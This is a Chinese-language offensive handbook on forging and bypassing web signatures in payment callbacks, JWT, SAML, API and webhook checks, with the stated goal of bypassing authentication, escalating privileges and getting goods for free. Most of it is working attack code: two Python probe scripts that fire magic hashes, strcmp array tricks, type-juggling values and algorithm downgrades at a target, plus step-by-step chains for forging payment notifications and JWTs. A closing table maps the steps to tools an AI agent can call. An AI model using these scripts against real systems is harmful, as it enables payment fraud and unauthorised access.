

# Signature Forgery — 签名伪造与验证绕过全景手册

> 签名是"信任的数学表达"。本手册覆盖 Web 中所有签名场景：支付回调、API 鉴权、JWT、OAuth、SAML、文件完整性、下载链接、CSRF token、Webhook payload。目标是**伪造任意上下文中的签名，以绕过认证、提权、零元购或冒充第三方**。

---

## 00. 签名攻击全景矩阵



---

## 0. 签名机制分类学

下表按**业务场景**归类，帮你快速定位正在面对的是什么类型的签名。

| # | 场景 | 典型算法 | 典型实现 | 典型缺陷 |
|---|------|---------|---------|---------|
| 1 | **支付回调签名** | MD5、HMAC-SHA256、RSA-SHA1 | 平台拼接 key-value + secret → hash(concat) | `sign_type` 可指定、参数顺序不一致、magic hash、空密钥 |
| 2 | **JWT** | HMAC-SHA256、RS256、ES256 | `base64(header).base64(payload).signature` | `alg:none`、公钥当密钥、JKU header 注入、kid SQLi |
| 3 | **API 请求签名** | HMAC-SHA256、AWS SigV4、OAuth1.0a | canonical request → string to sign → signing key | timestamp 窗口大、nonce 可复用、canonicalization 差异 |
| 4 | **文件完整性校验** | MD5、SHA1、SHA256、CRC32 | 下载时附带 hash 值，客户端比对 | hash 可被替换、CRC 非密码学安全、MD5/SHA1 碰撞 |
| 5 | **Cookie 签名** | HMAC-MD5、HMAC-SHA1 | `cookie_value.hexdigest` | 签名长度固定可识别、密钥硬编码、无时效 |
| 6 | **CSRF Token** | HMAC、随机数 + 用户绑定 | 隐藏字段或 header | token 不绑定用户、可预测随机数、复用 token |
| 7 | **OAuth state / nonce** | HMAC、随机字符串 | state 参数防 CSRF，nonce 防重放 | state 可预测、无验证、nonce 窗口过大 |
| 8 | **SAML Assertion** | XML Signature (RSA-SHA1/SHA256) | SignedInfo → Canonicalization → Digest → Signature | XML 规范化差异、XSW( XML Signature Wrapping)、密钥泄露 |
| 9 | **下载链接签名** | MD5、HMAC、timestamp + hash | `/download/file?sign=XXX&expire=YYYY` | sign 算法可逆向、expire 可篡改、路径遍历 |
| 10 | **Webhook Payload** | HMAC-SHA256、SHA1 + secret | `sha256(webhook.secret + json_body)` | 无时效、重放、密钥泄露、body 解析差异 |

---

## 1. 签名验证流程与攻击面

每一个签名验证都包含 5 个步骤，每个步骤都有自己的攻击面：

```
                         攻击面标注
                             ↓
[Input] ──▶ [Parse/Decode] ──▶ [Extract Signature] ──▶ [Compare] ──▶ [Decision]
   ↑               ↑                    ↑                    ↑               ↑
   │               │                    │                    │               │
   ├─ 参数注入     ├─ 编码绕过          ├─ 算法降级           ├─ 类型戏法      ├─ 强制返回 true
   ├─ 参数缺失     ├─ URL 解码差异      ├─ 多个签名取第一个   ├─ strcmp 数组   ├─ 异常捕获 → true
   ├─ 参数覆盖     ├─ XML 规范化差异    ├─ 取第二个参数       ├─ == vs ===    ├─ 短路逻辑
   └─ body 截断    ├─ JSON 键顺序      └─ sign_type 可指定    ├─ magic hash   └─ 只检查存在不检查值
                   └─ 字符编码差异      └─ 空签名接受        └─ 截断比较
        ↑               ↑                    ↑                    ↑               ↑
   Phase 1           Phase 2              Phase 3              Phase 4          Phase 5
   Input             Parse                Extraction           Comparison       Decision
   Manipulation      Bypass               Manipulation         Bypass           Bypass
```

### Phase-by-Phase 攻击详解

**Phase 1 — 输入操作 (Input Manipulation)**
- 不传 `sign` 参数 → 某些框架空值视为通过
- 传多个 `sign` → 有的解析取第一个，有的取最后一个
- 参数注入到签名计算范围之外 → 参与计算 vs 不参与计算的参数
- 向 body 追加额外参数 → 签名不覆盖该参数

**Phase 2 — 解析绕过 (Parse Bypass)**
- `application/x-www-form-urlencoded` 与 `multipart/form-data` 解析差异
- XML 外部实体 (XXE) 影响规范化结果
- JSON 中 `\uXXXX` unicode 转义 → `=` vs `=`
- PHP `parse_str()` 的数组行为 → `param[]=value`

**Phase 3 — 签名提取 (Signature Extraction)**
- 算法降级：把 `sign_type=RSA` 改为 `sign_type=MD5`，用已知密钥伪造
- `alg=none`（JWT 经典漏洞）
- 服务端同时接受多种算法，但弱算法（MD5）可通过碰撞攻击

**Phase 4 — 比较绕过 (Comparison Bypass)**
- PHP `$a == $b` 类型戏法：`"0e462097..." == "0e830400..."`（科学计数法=0）
- PHP `strcmp($sign, $expected)` 传数组返回 `null`（null == 0 == true）
- Python `hmac.compare_digest` 安全，但 `sign == expected` 不安全（时序）
- 只比较前 N 个字符的截断比较

**Phase 5 — 决策绕过 (Decision Bypass)**
- `try { verify(sign) } catch { return true }` — 异常时默认通过
- `if (sign) { verify(sign) } else { return false }` — 空值走 else
- `$result = verify(sign); return $result !== false;` — verify 返回 0 (=false) 时绕过

---

## 2. 快速判别决策树

面对一个未知签名系统时，按此决策树系统性测试：

```
开始 ── 找到请求中的签名(sign/signature/_sig/s/token/auth)
  │
  ├── sign 为空/不传？ ──Yes──▶ 直接 403/401？ ──No──▶ 漏洞！空签名通过
  │                              │                    └── 测试: 删除 sign 参数
  │                              └── Yes → 继续
  │
  ├── sign_type=xxx 可指定？ ──Yes──▶ 改为 sign_type=MD5 + 空密钥签名
  │                                └── 测试: 任意字符串能通过？
  │
  ├── 服务器返回"sign error/no such sign"？ ──Yes──▶ 测试时序攻击
  │                                                    ├── 同一请求发送 100 次，记录耗时
  │                                                    ├── 逐字节爆破签名
  │                                                    └── 需要大量请求 (~N×256)
  │
  ├── 有源码或知道框架？ ──Yes──▶ 检查验证代码：
  │                                  ├── $sign == $calc ?  → PHP == 类型戏法
  │                                  ├── $sign === $calc ? → 通常安全
  │                                  ├── strcmp($sign, $calc) ? → PHP 数组绕过
  │                                  └── try {...} catch → 异常安全?
  │
  ├── 签名是 hash(data + secret) 格式？ ──Yes──▶ 长度扩展攻击
  │                                                  ├── MD5/SHA1/SHA2? → 可用 hash_extender
  │                                                  ├── HMAC? → 不行
  │                                                  └── SHA3/Blake2? → 不行
  │
  ├── 请求中有 timestamp/nonce？ ──Yes──▶ 重放攻击
  │                                              ├── 旧签名还能用？
  │                                              ├── timestamp 可改范围？
  │                                              └── nonce 可重复？
  │
  ├── 签名是 byte-to-byte 比较？ ──Yes──▶ 时序旁路
  │                                              └── 用 timing 逐位爆破
  │
  └── 都不像 ──▶ 运行 `signature_surface_probe.py` 做全覆盖探测
```

决策树对应 Python 实现：

```python
# decision_tree_probe.py — 自动化决策树探测
import requests, hashlib, hmac, time, json, sys

BASE = sys.argv[1] if len(sys.argv) > 1 else "https://target"
S = requests.Session()

def quick_probe(url: str, method: str = "POST", **kwargs):
    """通用探测器，返回 (status, body_len, body_text)"""
    try:
        fn = getattr(S, method.lower())
        r = fn(url, timeout=10, **kwargs)
        return r.status_code, len(r.text), r.text[:300]
    except Exception as e:
        return 0, 0, str(e)

def decide_tree(base_url: str, sample_body: dict = None):
    """执行决策树主逻辑"""
    if sample_body is None:
        sample_body = {"order_id": "TEST001", "amount": "1.00", "sign": "test"}

    print("=" * 60)
    print("  [决策树] 签名攻击面快速扫描")
    print("=" * 60)

    # (1) 空签名
    print("\n[1] 空签名测试...")
    body_no_sign = {k: v for k, v in sample_body.items() if k not in ("sign", "signature", "_sig", "s")}
    st, _, text = quick_probe(base_url, json=body_no_sign)
    if st in (200, 302):
        print(f"  [!] 删除 sign 后返回 {st} — 签名验证可能为空值绕过")
        print(f"  body={text[:100]}")
    else:
        print(f"  [*] 返回 {st} — 签名必须")

    # (2) sign_type 降级
    print("\n[2] 算法降级测试...")
    body_downgrade = dict(sample_body)
    for alg in ["MD5", "md5", "SHA1", "sha1", "none", "NONE"]:
        body_downgrade["sign_type"] = alg
        body_downgrade["sign"] = hashlib.md5(b"test").hexdigest()
        st, _, text = quick_probe(base_url, json=body_downgrade)
        if st in (200, 302):
            print(f"  [!] sign_type={alg} 返回 {st} — 算法降级可能")
            print(f"  body={text[:100]}")

    # (3) magic hash (PHP ==)
    print("\n[3] PHP Magic Hash 测试...")
    MAGIC_HASHES = [
        "0e462097431907509062922748828256",  # MD5("240610708")
        "0e763086752390408517080427520126",  # MD5("QNKCDZO")
        "0e848240448830537924465865611904",  # MD5("aabg7XSs")
    ]
    for magic in MAGIC_HASHES:
        body_magic = dict(sample_body)
        body_magic["sign"] = magic
        st, _, text = quick_probe(base_url, json=body_magic)
        if st in (200, 302):
            print(f"  [!] magic hash {magic[:20]}... 返回 {st}")
            print(f"  body={text[:100]}")

    # (4) strcmp 数组绕过
    print("\n[4] PHP strcmp 数组绕过测试...")
    body_array = dict(sample_body)
    body_array["sign[]"] = "test"
    st, _, text = quick_probe(base_url, data=body_array)
    if st in (200, 302):
        print(f"  [!] sign[]=test 返回 {st} — strcmp 数组绕过可能")
        print(f"  body={text[:100]}")

    # (5) JSON 类型戏法
    print("\n[5] JSON 类型戏法测试...")
    types = [True, False, None, 0, 0.0, "", [], {}]
    for val in types:
        body_type = dict(sample_body)
        body_type["sign"] = val
        st, _, text = quick_probe(base_url, json=body_type)
        if st in (200, 302):
            print(f"  [!] sign={repr(val)} 返回 {st}")
            print(f"  body={text[:100]}")

    # (6) 时序基线
    print("\n[6] 时序基线采样 (100次)...")
    timings = []
    for i in range(100):
        t0 = time.perf_counter()
        S.post(base_url, json=sample_body, timeout=10)
        timings.append((time.perf_counter() - t0) * 1000)
    avg = sum(timings) / len(timings)
    std = (sum((t - avg) ** 2 for t in timings) / len(timings)) ** 0.5
    print(f"  avg={avg:.3f}ms  std={std:.3f}ms")
    if std > 0.5:
        print(f"  [*] 时序抖动较大 (std={std:.3f}) — 可能不适合 timing attack")
    else:
        print(f"  [!] 时序稳定 (std={std:.3f}) — timing attack 可行")

    print("\n" + "=" * 60)
    print("  [决策树] 扫描完成")
    print("=" * 60)


if __name__ == "__main__":
    # 示例: python decision_tree_probe.py "https://target/api/payment/notify"
    # 或用 sample_body 自定义
    from urllib.parse import urlparse
    if len(sys.argv) > 1:
        base = sys.argv[1]
        sample = {k: "test" for k in ["order_id", "amount", "status", "sign"]}
        decide_tree(base, sample)
    else:
        print("Usage: python decision_tree_probe.py <target_url>")
```

---

## 3. 签名攻击武器库

| # | 攻击名称 | 适用上下文 | 难度 | 影响 | Code Snippet (一行版) |
|---|---------|-----------|------|------|----------------------|
| 1 | **空签名** | 支付回调、API、Webhook | ⭐ | 极高 | `{"sign": ""}` 或直接删除 sign 参数 |
| 2 | **alg: none** | JWT | ⭐ | 极高 | `base64({"alg":"none"}) + "." + base64({"admin":True}) + "."` |
| 3 | **sign_type 降级** | 支付宝、微信回调 | ⭐⭐ | 高 | `{"sign_type":"MD5","sign":md5(secret+data)}` |
| 4 | **魔法哈希** | PHP 后端 (`==` 比较) | ⭐ | 高 | `sign=0e462097431907509062922748828256` |
| 5 | **strcmp 数组** | PHP 后端 | ⭐ | 高 | `sign[]=test` (URL 编码参数) |
| 6 | **JSON 类型戏法** | 任意后端 | ⭐ | 中 | `sign:true` / `sign:0` / `sign:null` |
| 7 | **HMAC 弱密钥** | HMAC 签名 | ⭐⭐ | 高 | 常见密码字典爆破密钥 |
| 8 | **硬编码密钥** | JS/APK 前端签名 | ⭐ | 极高 | 在 JS sourcemap / APK strings 中搜索 |
| 9 | **长度扩展攻击** | `MD5/SHA1(secret+data)` | ⭐⭐⭐ | 高 | `hash_extender --secret-min 4 --append '&admin=1'` |
| 10 | **参数顺序不一致** | 支付签名、API 签名 | ⭐ | 高 | 改变参数顺序使签名匹配 |
| 11 | **URL 编码差异** | URL query string 签名 | ⭐⭐ | 中 | `%20` vs `+` vs 原始空格 |
| 12 | **Unicode 规范化** | XML/JSON 签名 | ⭐⭐ | 中 | `é` vs `é` NFC vs NFD |
| 13 | **JSON 键重复** | API 签名 | ⭐⭐ | 高 | `{"amount":0.01,"amount":0.00}` 后者覆盖前者 |
| 14 | **XML 规范化绕过** | SAML Assertion | ⭐⭐⭐ | 高 | XML Signature Wrapping (XSW) |
| 15 | **时序旁路攻击** | 任意 byte-to-byte 比较 | ⭐⭐⭐⭐ | 中 | 逐字节爆破，每字节 256 次请求 |
| 16 | **重放攻击** | 任何有时效签名的场景 | ⭐ | 中 | 捕获有效签名后重放，修改其他参数 |
| 17 | **Nonce 复用** | OAuth、API 签名 | ⭐⭐ | 中 | 用同一个 nonce + 不同参数重放 |
| 18 | **Timestamp 绕过** | 带过期时间的签名 | ⭐ | 中 | 修改 timestamp 到过期范围内或未来 |
| 19 | **碰撞攻击** | MD5/SHA1 签名 | ⭐⭐⭐⭐ | 中 | `md5_collision("a") == md5_collision("b")` |
| 20 | **签名截断** | 只比较前 N 个字符 | ⭐ | 高 | 计算部分碰撞 |
| 21 | **HMAC 长度扩展** | HMAC 实现缺陷 | ⭐⭐⭐⭐ | 低 | 极少见，但某些自定义 HMAC-like 实现可扩展 |
| 22 | **两次签名差异** | 签名参与二次签名 | ⭐⭐⭐ | 高 | Sign 自己的 sign，利用 hash 长度扩展绕过 |
| 23 | **多签名参数** | 多个 sign 参数 | ⭐ | 高 | `sign=my_fake&sign=real_computed` |
| 24 | **Referer/Origin 空** | CSRF token 校验 | ⭐ | 中 | 删除 Referer/Origin header |
| 25 | **公钥泄露 → JWT 伪造** | JWT RS256 | ⭐⭐ | 高 | 获取公钥，设置 `alg=HS256` 用公钥签名 |

---

## 4. 通用探测脚本

```python
#!/usr/bin/env python3
"""
signature_surface_probe.py — 签名攻击面全覆盖探测

用法:
    python signature_surface_probe.py <url> [method] [--param sign] [--body '{"key":"val"}']

自动测试:
    1. 空签名/缺参数
    2. 算法降级 (sign_type)
    3. Magic hash (PHP ==)
    4. strcmp 数组绕过
    5. JSON 类型戏法
    6. 时序基线
    7. 多签名参数
    8. 参数顺序变异
    9. Timestamp 边界
    10. Nonce 重放
"""
import requests, hashlib, hmac, json, time, sys, argparse, copy
from urllib.parse import urlencode, parse_qs
from typing import Optional

# ============================================================
# Configuration
# ============================================================
S = requests.Session()
S.headers["User-Agent"] = "SignatureProbe/1.0"

RESULTS = []  # 收集所有结果,最后输出报告

def log(name: str, status: str, detail: str, severity: str = "info"):
    """记录探测结果"""
    RESULTS.append({
        "name": name,
        "status": status,
        "detail": detail,
        "severity": severity,
    })
    icons = {"vuln": "[!]", "maybe": "[?]", "info": "[*]", "safe": "[OK]"}
    print(f"  {icons.get(severity, '[*]')} [{severity.upper():5s}] {name}: {detail}")


# ============================================================
# Probe Modules
# ============================================================

def probe_empty_sign(url: str, method: str, body: dict, sign_field: str):
    """1. 空签名: 不传、传空字符串、传 None"""
    for label, modified in [
        ("missing_sign", {k: v for k, v in body.items() if k != sign_field}),
        ("empty_string", {**body, sign_field: ""}),
        ("null_value",   {**body, sign_field: None}),
        ("zero_int",     {**body, sign_field: 0}),
    ]:
        st, text = quick_request(url, method, modified)
        if st in (200, 302, 301):
            log(f"空签名/{label}", "PASS", f"status={st} 签名空时通过", "vuln")
        else:
            log(f"空签名/{label}", "BLOCKED", f"status={st}", "safe")


def probe_algorithm_downgrade(url: str, method: str, body: dict, sign_field: str):
    """2. 算法降级: 测试常见 sign_type 值"""
    ALGORITHMS = [
        ("MD5", hashlib.md5(b"test").hexdigest()),
        ("md5", hashlib.md5(b"test").hexdigest()),
        ("SHA1", hashlib.sha1(b"test").hexdigest()),
        ("sha1", hashlib.sha1(b"test").hexdigest()),
        ("SHA256", hashlib.sha256(b"test").hexdigest()),
        ("sha256", hashlib.sha256(b"test").hexdigest()),
        ("none", ""),
        ("NONE", ""),
        ("RSA", "deadbeef"),
        ("HMAC", hashlib.sha256(b"key:data").hexdigest()),
    ]
    for alg_name, fake_sig in ALGORITHMS:
        modified = {**body, sign_field: fake_sig}
        if "sign_type" in body:
            modified["sign_type"] = alg_name
        else:
            modified["sign_type"] = alg_name  # 主动添加
        st, text = quick_request(url, method, modified)
        if st in (200, 302):
            log(f"算法降级/{alg_name}", "PASS", f"sign_type={alg_name} 返回 {st}", "vuln")
        else:
            log(f"算法降级/{alg_name}", "BLOCKED", f"status={st}", "safe")


def probe_magic_hash(url: str, method: str, body: dict, sign_field: str):
    """3. PHP Magic Hash 测试"""
    MAGIC_HASHES = {
        "240610708":  "0e462097431907509062922748828256",
        "QNKCDZO":    "0e763086752390408517080427520126",
        "aabg7XSs":   "0e848240448830537924465865611904",
        "aabC9RqS":   "0e113712690500585202449843398984",
        "EE0g":       "0e226898839297855170959467974341",
        "0e215962017": "0e291242476940086929259775180893",
    }
    for raw, magic in MAGIC_HASHES.items():
        modified = {**body, sign_field: magic}
        st, text = quick_request(url, method, modified)
        if st in (200, 302):
            log(f"MagicHash/{raw[:12]}", "PASS", f"magic={magic[:20]}... 返回 {st}", "vuln")
        else:
            log(f"MagicHash/{raw[:12]}", "BLOCKED", f"status={st}", "safe")


def probe_strcmp_array(url: str, method: str, body: dict, sign_field: str):
    """4. PHP strcmp 数组绕过: sign[]=xxx (仅 URL-encoded body 有效)"""
    # JSON 中无法传 sign[]，所以用 data= 形式
    # 先判断当前传递方式
    if isinstance(body.get(sign_field), str):
        # 构建 URL 编码 body
        data_body = {}
        for k, v in body.items():
            if k == sign_field:
                data_body[f"{sign_field}[]"] = "test"
            else:
                data_body[k] = v
        st, text = quick_request(url, method, data_body, use_json=False)
        if st in (200, 302):
            log("strcmp数组", "PASS", f"sign[]=test 返回 {st}", "vuln")
        else:
            log("strcmp数组", "BLOCKED", f"status={st}", "safe")


def probe_type_juggling(url: str, method: str, body: dict, sign_field: str):
    """5. JSON 类型戏法: sign=true, sign:0, sign:null 等"""
    for val in [True, False, None, 0, 0.0, "", [], {}]:
        modified = {**body, sign_field: val}
        st, text = quick_request(url, method, modified, use_json=True)
        if st in (200, 302):
            log(f"类型戏法/{repr(val)}", "PASS", f"sign={repr(val)} 返回 {st}", "vuln" if val in (True, False, None, 0) else "maybe")


def probe_timing(url: str, method: str, body: dict, sign_field: str, samples: int = 50):
    """6. 时序基线 — 判断是否可做 timing attack"""
    timings = []
    for i in range(samples):
        t0 = time.perf_counter()
        quick_request(url, method, body)
        timings.append((time.perf_counter() - t0) * 1000)
    avg = sum(timings) / len(timings)
    std = (sum((t - avg) ** 2 for t in timings) / len(timings)) ** 0.5
    if std < 0.3:
        log("时序基线", "LOW_JITTER", f"avg={avg:.3f}ms std={std:.3f}ms — 适合 timing attack", "maybe")
    elif std < 1.0:
        log("时序基线", "MED_JITTER", f"avg={avg:.3f}ms std={std:.3f}ms — 条件性适合", "info")
    else:
        log("时序基线", "HIGH_JITTER", f"avg={avg:.3f}ms std={std:.3f}ms — 不适合", "info")


def probe_multi_sign(url: str, method: str, body: dict, sign_field: str):
    """7. 多签名参数: 传两个 sign 值"""
    # 对 URL-encoded, 传 sign=real&sign=fake
    # 对 JSON, 不能有重复 key, 所以只测 URL-encoded
    if isinstance(body, dict) and all(isinstance(v, str) for v in body.values()):
        # 假设是简单 key-value
        params = []
        for k, v in body.items():
            if k == sign_field:
                params.append((k, "FAKE_SIGN"))
                params.append((k, v))  # 真实签名在后
            else:
                params.append((k, v))
        st, text = quick_request(url, method, params, use_json=False)
        if st in (200, 302):
            log("多签名(后覆盖)", "PASS", f"两个 sign 参数, 真实在后返回 {st}", "vuln" if "FAKE" not in text[:200] else "info")
        # 交换顺序
        params_rev = list(reversed(params))
        st2, text2 = quick_request(url, method, params_rev, use_json=False)
        if st2 in (200, 302):
            log("多签名(前覆盖)", "PASS", f"两个 sign 参数, 真实在前返回 {st2}", "vuln")


def probe_timestamp_boundary(url: str, method: str, body: dict, sign_field: str):
    """8. Timestamp 边缘测试"""
    now = int(time.time())
    for label, ts in [
        ("zero", 0),
        ("negative", -1),
        ("far_future", now + 86400 * 365 * 10),   # +10年
        ("far_past", now - 86400 * 365 * 10),      # -10年
        ("epoch", 1),
        ("max_32bit", 2147483647),
        ("string_zero", "0"),
    ]:
        if "timestamp" in body:
            modified = {**body, "timestamp": ts}
        elif "time" in body:
            modified = {**body, "time": ts}
        elif "ts" in body:
            modified = {**body, "ts": ts}
        elif "expire" in body:
            modified = {**body, "expire": ts if isinstance(ts, int) else ts}
        else:
            continue
        st, text = quick_request(url, method, modified)
        log(f"时间边界/{label}={ts}", "CHECK", f"status={st}", "maybe" if st in (200, 302) else "info")


# ============================================================
# Helper Functions
# ============================================================

def quick_request(url: str, method: str, data, use_json: bool = True,
                  timeout: int = 8):
    """统一的请求发送函数"""
    try:
        fn = getattr(S, method.lower())
        if use_json:
            r = fn(url, json=data, timeout=timeout)
        else:
            r = fn(url, data=data, timeout=timeout)
        return r.status_code, r.text[:500]
    except Exception as e:
        return 0, str(e)


def generate_report(target_url: str, output_file: Optional[str] = None):
    """生成探测报告"""
    vuln = [r for r in RESULTS if r["severity"] == "vuln"]
    maybe = [r for r in RESULTS if r["severity"] == "maybe"]

    lines = []
    lines.append("=" * 70)
    lines.append(f"  Signature Attack Surface Probe Report")
    lines.append(f"  Target: {target_url}")
    lines.append(f"  Time:   {time.strftime('%Y-%m-%d %H:%M:%S')}")
    lines.append(f"  Total:  {len(RESULTS)} probes")
    lines.append("=" * 70)
    lines.append(f"\n## 漏洞级别 [!] ({len(vuln)} found)\n")
    for r in vuln:
        lines.append(f"  - {r['name']}: {r['detail']}")
    lines.append(f"\n## 可疑级别 [?] ({len(maybe)} found)\n")
    for r in maybe:
        lines.append(f"  - {r['name']}: {r['detail']}")
    lines.append(f"\n## 详细日志\n")
    for r in RESULTS:
        lines.append(f"  [{r['status']:7s}] {r['name']:30s} | {r['detail']}")

    report = "\n".join(lines)
    print("\n" + report)
    if output_file:
        with open(output_file, "w", encoding="utf-8") as f:
            f.write(report)
        print(f"\n报告已保存: {output_file}")
    return report


# ============================================================
# Main
# ============================================================

def main():
    parser = argparse.ArgumentParser(description="Signature Forgery Surface Probe")
    parser.add_argument("url", help="Target URL")
    parser.add_argument("method", nargs="?", default="POST", help="HTTP method (POST/GET)")
    parser.add_argument("--param", default="sign", help="Signature parameter name")
    parser.add_argument("--body", default='{"order_id":"TEST","amount":"1.00","sign":"dummy"}',
                        help='Sample JSON body with sign')
    parser.add_argument("--output", "-o", default=None, help="Output report file")
    parser.add_argument("--timing-samples", type=int, default=50,
                        help="Number of timing samples (default: 50)")
    args = parser.parse_args()

    try:
        body = json.loads(args.body)
    except json.JSONDecodeError:
        print(f"[!] 无法解析 body JSON: {args.body}")
        sys.exit(1)

    if args.param not in body:
        print(f"[!] 参数名 '{args.param}' 不在 body 中, 使用 body 中的 key 作为 sign 字段")
        # 自动检测: 常见的签名名
        for key in body:
            if key.lower() in ("sign", "sig", "signature", "_sig", "s", "token", "auth"):
                args.param = key
                break

    print(f"\n  Target:  {args.url}")
    print(f"  Method:  {args.method}")
    print(f"  SignField: {args.param}")
    print(f"  Body:    {json.dumps(body, ensure_ascii=False)[:100]}")
    print()

    # 执行所有探测
    probes = [
        ("空签名/缺参数", probe_empty_sign),
        ("算法降级", probe_algorithm_downgrade),
        ("MagicHash", probe_magic_hash),
        ("strcmp数组", probe_strcmp_array),
        ("类型戏法", probe_type_juggling),
        ("多签名", probe_multi_sign),
        ("时间边界", probe_timestamp_boundary),
        ("时序基线", lambda *a: probe_timing(*a, samples=args.timing_samples)),
    ]
    for name, fn in probes:
        print(f"[*] 探测: {name}")
        try:
            fn(args.url, args.method, body, args.param)
        except Exception as e:
            print(f"  [!] 探测 {name} 出错: {e}")
        print()

    # 生成报告
    generate_report(args.url, args.output)


if __name__ == "__main__":
    main()
```

### 探测结果解读

```python
# 运行示例
# python signature_surface_probe.py "https://target.com/api/payment/notify" \
#     --body '{"order_id":"O001","amount":"1.00","status":"success","sign":"x"}'

# 输出解读指导:
REPORT_INTERPRETATION = """
=== 结果优先级 ===

[!] VULN — 高置信度漏洞:
    - 空签名通过 → 直接报告 RCE/Payment Bypass
    - Magic hash 通过 → 确认 PHP == 比较，可直接伪造
    - strcmp 数组通过 → 确认 PHP strcmp，可直接伪造

[?] MAYBE — 需要人工确认:
    - sign_type 可指定 → 需要知道 secret/公钥
    - 类型戏法 True/0 → 可能只是正常处理，不是漏洞
    - 时序低抖动 → 需要更大样本验证

[OK] SAFE — 该维度安全:
    - 正常行为，无漏洞

=== 下一步行动 ===
1. 如果有 [!] 结果 → 直接利用
2. 如果有 [?] sign_type 降级 → 尝试获得密钥
3. 如果全是 [OK] → 尝试深度分析(见各子文件)
"""
```

---

## 5. 各子文件地图

| 文件 | 覆盖范围 | 一句话摘要 |
|------|---------|-----------|
| [01-algorithm.md](01-algorithm.md) | 算法降级、alg:none、sign_type 切换、弱算法碰撞 | 如果服务器允许客户端选择算法，直接选最弱的那个伪造签名 |
| [02-implementation.md](02-implementation.md) | PHP `==` vs `===`、`strcmp` 数组、Python/JS/Go 实现陷阱、时序旁路 | 安全算法 + 不安全实现 = 漏洞，重点看 PHP 的 `==` 和 `strcmp` |
| [03-key-attacks.md](03-key-attacks.md) | 硬编码密钥、弱密钥爆破、密钥泄露、HMAC 密钥推导 | 密钥在 JS bundle / APK / .env / git history 里等你发现 |
| [04-canonicalization.md](04-canonicalization.md) | 参数顺序、URL/Unicode/Base64 编码、XML 规范化、JSON 键重复 | 签名计算和验证两端的规范化不一致 = 签名绕过 |
| [05-length-extension.md](05-length-extension.md) | MD5/SHA1/SHA2 前缀/后缀构造、hash_extender 使用 | 知道 `hash(secret + data)` 即可在不知道 secret 的情况下扩展出合法签名 |
| [06-replay-nonce.md](06-replay-nonce.md) | 重放攻击、nonce/timestamp 绕过、idempotency key 漏洞 | 签名本身正确但缺少时效保护 = 截获一次签名无限使用 |

---

## 6. 典型攻击链示例

```
# === 场景: 支付回调签名绕过 ===
# 1. 下订单, 拿到 order_id
# 2. 观察回调 notify_url 的签名算法 (sign_type=MD5)
# 3. 测试 sign_type 能否降级 → 改为 MD5
# 4. 从 JS bundle 中提取 MD5 密钥 (或空密钥)
# 5. 构造伪造回调: {"order_id":"XXX","trade_status":"TRADE_SUCCESS","sign":md5(secret+data)}
# 6. 发送到 notify_url → 服务器发货

# === 场景: JWT 伪造 ===
# 1. 拿到 JWT token: eyJhbGciOiJSUzI1NiJ9...
# 2. 解码 header → alg="RS256"
# 3. 获取公钥 (从 /jwks.json)
# 4. 修改 alg="HS256", 用公钥作为 HMAC 密钥签名
# 5. 伪造 JWT: base64({"alg":"HS256"}) + "." + base64({"admin":true}) + "." + hmac(public_key)

# === 场景: API 签名长度扩展 ===
# 1. 拿到已知签名: sign=MD5(secret + "amount=100&user=test")
# 2. 用 hash_extender: --secret-min 4 --data "amount=100&user=test" \ 
#       --signature <已知签名> --append "&admin=1"
# 3. 得到新的data和签名, 发送请求 → 管理员权限
```

---

> 下一步：根据 README 的快速查找表定位你的场景，或依次阅读 01-06 子文件获取完整的攻击方法论和代码武器库。

## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| 签名验证端点探测 | `http_probe` | HTTP GET 探测签名验证端点 |
| 知识检索 | `kb_router` | 按签名攻击信号搜索知识库 |
